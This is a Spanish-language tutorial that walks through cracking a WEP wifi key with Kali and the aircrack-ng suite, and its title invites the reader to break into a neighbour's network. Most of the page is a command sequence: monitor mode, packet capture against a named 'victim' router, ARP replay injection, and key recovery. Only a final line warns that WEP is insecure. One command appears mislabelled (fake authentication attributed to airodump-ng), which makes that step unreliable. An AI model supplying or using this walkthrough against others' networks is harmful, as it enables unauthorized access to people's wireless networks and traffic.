

# ¿Quieres descifrar la contraseña "wep" de tu vecino? ¡Coge asiento!
Vamos a  descifrar la contraseña de una red wifi con "[Kali](https://www.kali.org/downloads/)" usando la herramienta "aircrack"
Para esta práctica necesitamos **adaptador inalámbrico** en tu PC. 
Con cualquier herramienta para crear usb de arranque (ej: [rufus](https://rufus.ie/)) creamos un usb de arranque con la iso de kali. Cuando termines enciende tu pc con el usb de arranque.

Arrancamos el equipo desde el live USB y entramos al sistema en live system. Si tienes ya instalado el Kali entras directamente. En el caso que quieras hacer esta práctica en máquinas virtuales necesita un adaptador wifi de USB para poder hacer la práctica correctamente.


Abrimos la terminal e introducimos el comando:
>airmon-ng

Nos aparecerá el interfaz wlan con el controlador de la red wifi que tenemos instalado y reconocido por la herramienta. Si no te aparece nada puede ser que tu controlador no soporte la función de monitorizar la red wifi.


Una vez comprobado que la herramienta es compatible con nuestro controlador empezamos a monitorizar el interfaz wlan0. 
>airmon-ng start wlan0

Nos indica el comando que el proceso **1044** **1107** puede causar problemas, lo apagamos con el comando ```kill```.
>kill -9 1044

Una vez iniciado el interfaz **wlan0** se convierte en **wlan0mon**, podemos comprobarlo con ```ifconfig```.


Escaneamos la red wifi con el comando:
>airodump-ng wlan0mon

Nos mostrará el BSSID(mac) de los routers o PA, intensidad de señal, modo de cifrado y el nombre del dispositivo(ESSID). Una vez encontrado la red que queramos atacar terminamos el escaneo con ```ctrl+c```.



Usamos el comando ```airodump-ng``` para coger los paquetes de la red "víctima".
>airodump-ng -c 6 --bssid E8:DE:27:2F:84:CA -w ./ wlan0mon

```-c```El canal del wifi.

```--bssid```La mac del router.

```-w```El lugar donde vamos a guardar los paquetes capturados.
Una vez teniendo suficiente paquetes podemos empezar a "hackear" la contraseña.

Con el comando ```aireplay-ng``` aceleramos el paso de capturar paquetes(**Beacons** y **Data**). Para más información consulta al [Aireplay](https://www.aircrack-ng.org/doku.php?id=es:aireplay-ng). 


>aireplay-ng -3 -b E8:DE:27:2F:84:CA wlan0mon 


>airodump-ng -1 0 -a E8:DE:27:2F:84:CA wlan0mon


Cuando capturamos suficiente paquetes (5000+) pulsa ```ctrl+c``` y empezamos a descifrar la clave con el comando ```aircrack```.
>aircrack-ng -b E8:DE:27:2F:84:CA ./*.cap

```-b```La mac del router.


Y ya lo tenemos la clave del wifi descifrada. Como podéis ver el cifrado WEP no es seguro, tenemos que evitar usarlo.

[Volver al Página de inicio](https://nswhuei.github.io/hack-wifi/)

